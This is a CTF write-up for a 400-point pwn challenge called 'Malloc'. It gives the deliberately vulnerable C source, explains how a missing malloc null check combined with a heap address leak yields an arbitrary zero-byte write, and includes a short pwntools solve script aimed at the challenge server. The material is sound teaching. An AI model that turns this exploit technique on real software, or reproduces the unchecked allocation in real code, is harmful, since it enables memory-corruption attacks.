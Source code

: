 # Malloc

Category: Pwn

Points: 400

Solves: 2

> Can you somehow get the flag? Have fun!
>
> ```
> nc challs.sieberrsec.tech 1470
> ```

The exploit for this challenge was really simple (you could do it by hand) but it's quite difficult to find, which is probably why there were only 2 solves during the CTF.

```c
#include <unistd.h>

#include <stdio.h>
#include <stdlib.h>

// cc malloc.c -o malloc -fstack-protector-all
int main(void)
{
	// Variables
	int *arr; // int pointer to an array
	char *msg; // C-string to store your message
	size_t length = 0;
	// Welcome message
	puts("Welcome to Sieberrsec CTF!");
	// Allocates 123456 bytes of memory
	arr = (int *)malloc(123456);
	// Sets first element of arr to 1
	arr[0] = 1;
	// Leaks the memory address of arr
	printf("Leak: %p\n", arr);
	// Gets length of your message
	printf("Length of your message: ");
	scanf("%lu", &length);
	// Allocates memory to store your message as a C-string
	// +1 is to store the null-byte that ends the string
	msg = malloc(length + 1);
	// Reads length bytes of input into msg
	printf("Enter your message: ");
	read(0, msg, length);
	// Null-byte to end the string
	msg[length] = 0;
	// Write length bytes from msg
	write(1, msg, length);
	// Your goal: somehow make arr[0] == 0
	if (arr[0] == 0) {
		system("cat flag");
	}
	return 0;
}
```

Of course, when I saw the challenge name, I thought it was going to be a really complex heap challenge, so I popped up gdb and started debugging the binary. 

![image-20211227064425507](./images/heap_chunks.png)

Unfortunately, the chunk we can write to (0x0000555555577d10) is after the chunk we want to write to (0x5555555596b0) so we probably can't do a heap overflow. The code doesn't seem vulnerable to heap overflows anyway. There are no frees, so it's probably not a "traditional" heap challenge.

Next, I looked through the heap checklist (you can find it [here](https://azeria-labs.com/heap-exploitation-part-1-understanding-the-glibc-heap-implementation/)):

![](https://azeria-labs.com/wp-content/uploads/2019/03/heap-rules-CS.png)

Aha, the final rules is violated: the program does not check if malloc returns a valid pointer!

```c
msg = malloc(length + 1);

// Reads length bytes of input into msg
printf("Enter your message: ");
read(0, msg, length);

// Null-byte to end the string
msg[length] = 0;
```

Malloc returns a nullptr (pointer to 0x0) if it is unable to allocate enough memory. This can happen when we try to allocate a very large chunk. This can of course lead to null dereference bugs, but how does it lead to arbitrary write?? 

This actually occurs when we do `msg[length]=0`. If `msg = nullptr`, then `msg[x] = *x`, since C array indexing is just pointer math. It also helps that `msg` is a char pointer so we don't need to divide by the size of the array element.

So now that we have arbitrary write, where do we write to? This is where the leak comes in. If we are able to set the byte at the leaked address to 0, we can get the flag:

```c
// Allocates 123456 bytes of memory
arr = (int *)malloc(123456);
// Sets first element of arr to 1
arr[0] = 1;
// Leaks the memory address of arr
printf("Leak: %p\n", arr);

// more code here

// Your goal: somehow make arr[0] == 0
if (arr[0] == 0) {
	system("cat flag");
}
```

The `arr` array is located on the heap, which has one of the highest memory addresses of a program's memory, so if we set `length=leak` and try to `msg = malloc(length)` it's going to return a null pointer. Then, when `msg[length] = 0` is executed, what actually happens is `*leak = 0`. This allows us to pass the `arr[0] == 0` check and get the flag!

## Solve script

```python
from pwn import *

e = ELF("./malloc")
context.binary = e

def setup():
    #p = e.process()
    p = remote("challs.sieberrsec.tech", 1470)
    return p

if __name__ == '__main__':
    p = setup()
    p.recvline()
    p.recvuntil("0x")
    # Grab the leak and convert to decimal
    leak = p.recvline(keepends=False)
    leak = int(leak,16)
    p.sendline(str(leak))
    # Stupid scanf might greedily eat the newline we are going to send
    pause(5)
    p.sendline("")

    p.interactive()
```

## Comments

This was actually quite an interesting challenge, because despite its seeming complexity, the solution was simple and (sort of?) elegant. I was a bit concerned that `read`ing to a `nullptr` would cause some problems, but fortunately it didn't crash or anything.

Btw this website (where I got the checklist from) is a really good resource for learning heap:

- https://azeria-labs.com/heap-exploitation-part-1-understanding-the-glibc-heap-implementation/
- https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/
